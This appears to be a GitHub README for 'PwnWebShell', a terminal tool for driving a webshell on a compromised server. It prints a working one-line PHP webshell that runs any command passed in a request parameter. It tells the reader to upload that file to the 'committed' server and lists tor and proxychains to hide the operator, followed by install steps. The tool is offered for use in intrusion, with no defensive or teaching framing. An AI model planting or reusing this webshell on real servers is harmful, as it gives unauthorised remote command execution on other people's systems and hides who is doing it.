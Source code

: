 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.
All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```



**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

<details><summary>Installation</summary>

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


3. `sudo rlwrap ./pwnwebshell.sh`
  

